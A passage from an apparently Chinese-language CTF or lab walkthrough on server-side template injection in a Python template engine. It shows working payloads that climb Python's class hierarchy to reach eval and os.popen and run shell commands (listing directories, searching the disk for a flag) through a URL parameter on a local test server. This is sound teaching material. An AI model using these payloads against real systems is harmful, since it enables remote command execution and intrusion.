       //执行任意命令
      ().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )
      object.__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )

1. 有了上面的基础知识铺垫，我们现在就可以试着利用漏洞构建一个查找命令了，并且只要将命令拼接在 url 之后，服务器就会误认其作为 Web 应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行构建的检查代码。
   
   ```
   # 以下代码直接粘贴进浏览器地址栏中即可
   # 返回当前 index 目录下的文件列表
   http://127.0.0.1:11451/index/?content={% for c in [].__class__.__base__.__subclasses__() %} {% if c.__name__ == 'catch_warnings' %} {% for b in c.__init__.__globals__.values() %} {% if b.__class__ == {}.__class__ %} {% if 'eval' in b.keys() %} {{ b['eval']('__import__("os").popen("ls").read()') }}{% endif %} {% endif %} {% endfor %} {% endif %} {% endfor %}
   
   # 全盘查找 'flag'
   http://127.0.0.1:11451/index/?content={% for c in [].__class__.__base__.__subclasses__() %} {% if c.__name__ == 'catch_warnings' %} {% for b in c.__init__.__globals__.values() %} {% if b.__class__ == {}.__class__ %} {% if 'eval' in b.keys() %} {{ b['eval']('__import__("os").popen("find / -name flag").read()') }}{% endif %} {% endif %} {% endfor %} {% endif %} {% endfor %}
   ```
   
   结果如下图，说明在根目录下就有一个叫 `flag` 的文件夹。
   
   ![find_flag-1](img/search_flag-1.png)
   
